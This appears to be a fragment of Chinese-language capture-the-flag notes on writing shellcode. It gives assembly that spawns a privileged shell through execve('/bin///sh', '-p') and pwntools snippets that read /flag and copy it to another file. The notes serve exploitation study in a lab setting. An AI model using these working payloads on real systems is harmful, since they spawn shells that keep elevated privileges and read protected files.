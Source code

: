 ```
    /* execve(path='/bin///sh', argv=['sh','-p'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push b'sh\x00-p\x00' */
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x702d006873
    xor [rsp], rax
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 0xb
    pop rsi
    add rsi, rsp
    push rsi /* '-p\x00' */
    push 0x10
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push 0x3b /* SYS_execve */
    pop rax
    syscall
```
## ♥♥orw 实现复制 flag 到某个文件
```python
sh1 = b''
sh1 += asm(shellcraft.open('/flag',0,0)) 					# 打开 /flag 文件
sh1 += asm(shellcraft.open('/home/hacker/Desktop/FLAG',1,0))	
# 打开FLAG文件。如果需要手写，这里可以简化，修改一下工作目录即可=====> open('f',1,0)
sh1 += asm(shellcraft.sendfile(1,0,0,1024))
```
```
sh1 = b''
sh1 += asm(shellcraft.open('/flag',0,0)) # 打开 /flag 文件进行读取
sh1 += asm('mov rdi,rax') # 将文件描述符移动到 rdi 以进行后续读/写

# 从 /flag 读取到 .bss 部分
sh1 += asm(shellcraft.read('rax',elf.bss()+0x100,1024))

sh1 += asm(shellcraft.open('/home/hacker/Desktop/FLAG',1,0)) # 打开 FLAG 文件进行写入
sh1 += asm('mov rsi,rax') # 将文件描述符移动到 rsi 进行写入

# 从 .bss 部分写入 FLAG 文件
sh1 += asm(shellcraft.write('rsi',elf.bss()+0x100,1024))
```
# level 8 18 字节 shellcode,[ 移除写入权限 ]
> 短字节 shellcode 参见[（二）笔记](https://www.yuque.com/hacker_muye.com/xwoluc/fsom3afzggf9pu0e)
> Tips：使用 mov 指令通常会比使用 pop push 指令得到的 shellcode 长，但是 pop,push 对于操作数据长度有限制
> 同时需要注意 系统调用函数的参数 是 立即数/字符串 还是 **地址映射的路径【一级映射，需要 pop,push 或者 mov xxx,rsp 操作】效果如：rbx:0x7fff......——> xxxxxx（/bin/sh）**
